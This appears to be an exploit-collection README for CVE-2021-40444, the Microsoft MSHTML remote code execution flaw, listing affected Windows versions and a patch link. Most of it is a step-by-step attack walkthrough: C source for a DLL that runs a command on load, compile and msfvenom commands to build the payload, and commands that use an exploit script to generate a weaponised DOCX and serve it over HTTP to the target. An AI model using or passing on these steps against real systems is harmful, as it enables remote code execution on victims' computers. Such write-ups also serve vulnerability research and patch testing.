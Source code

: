 ### CVE-2021-40444

#### Describe

Microsoft MSHTML Remote Code Execution Vulnerability

#### ImpactVersion

| Product             | CPU Architecture | Version | Update | Tested   |
| ------------------- | ---------------- | ------- | ------ | -------- |
| Windows 10          | x86/x64          |         |        |          |
| Windows 10          | x86/x64          | 1607    |        |          |
| Windows 10          | x86/x64/AMD64    | 1809    |        |          |
| Windows 10          | x86/x64/AMD64    | 1909    |        |          |
| Windows 10          | x86/x64/AMD64    | 2004    |        | &#10004; |
| Windows 10          | x86/x64/AMD64    | 20H2    |        |          |
| Windows 10          | x86/x64/AMD64    | 21H1    |        |          |
| Windows 7           | x86/x64          |         | SP1    |          |
| Windows 8.1         | x86/x64          |         |        |          |
| Windows Rt 8.1      |                  |         |        |          |
| Windows Server 2008 | x86/x64          |         | SP2    |          |
| Windows Server 2008 | x64              | R2      | SP1    |          |
| Windows Server 2012 |                  |         |        |          |
| Windows Server 2012 |                  | R2      |        |          |
| Windows Server 2016 |                  |         |        |          |
| Windows Server 2019 |                  |         |        |          |
| Windows Server 2022 |                  |         |        |          |
| Windows Server      |                  | 2004    |        |          |
| Windows Server      |                  | 20H2    |        |          |



#### Patch

```
https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2021-40444
```

#### UtilizationPrinciple

Based on the previous use of samples`938545f7bbe40738908a95da8cdeabb2a11ce2ca36b0f6a74deda9378d380a52`

You can know that it is to load ActiveX using the default browser (IE)

![image-20210911112944428](https://raw.github.com/Ascotbe/Random-img/master/Kernelhub/CVE-2021-40444_Windows_10_2004_X64_1.png)

Essentially maliciously uses only the `Document.xml.Rels` files in the sample, MHTML and X-USC, which can be used as the malicious target web page, you can achieve the utilization

#### Utilization

First, you need to generate a malicious DLL file, and compile themselves through MSF or yourself.

- Compile

  ```c
  //calc.c
  #include <windows.h>
  
  void exec(void) {
  	system("cmd /c calc");
  	return;
  }
  
  BOOL WINAPI DllMain(
      HINSTANCE hinstDLL,
      DWORD fdwReason, 
      LPVOID lpReserved )
  {
      switch( fdwReason ) 
      { 
          case DLL_PROCESS_ATTACH:
             exec(); 
             break;
  
          case DLL_THREAD_ATTACH:
              break;
  
          case DLL_THREAD_DETACH:
              break;
  
          case DLL_PROCESS_DETACH:
              break;
      }
      return TRUE;
  }
  ```

  Then run the command

  ```
  i686-w64-mingw32-gcc -shared calc.c -o calc.dll
  ```

- Compiled by MSF

  ```
  msfvenom -p windows/exec CMD=calc.exe EXITFUNC=thread -f dll>>calc.dll
  ```

> It is best to use MSF to generate a DLL file!
>
> Also, please see the corresponding machine, some Windows 10 version does not exist.

The relying on the installation environment is required to generate a cab

Then use a one-touch script,`test/calc.dll`This is the absolute path you generated by you,`http://you_ip`You start the IP of the EXP this machine

```
cd CVE-2021-40444 ; python3 exploit.py generate test/calc.dll http://you_ip
```

![image-20210911115757383](https://raw.github.com/Ascotbe/Random-img/master/Kernelhub/CVE-2021-40444_Windows_10_2004_X64_2.png)

Then start the HTTP service

```
cd srv ; python3 -m http.server 80
```

The resulting malicious DOCX file (in the `out/` folder) is placed on the target machine (Windows 10 2004 x64), can perform success

![1](https://raw.github.com/Ascotbe/Random-img/master/Kernelhub/CVE-2021-40444_Windows_10_2004_X64_3.gif)

#### ProjectSource

- [prcabral](https://github.com/prcabral/CVE-2021-40444)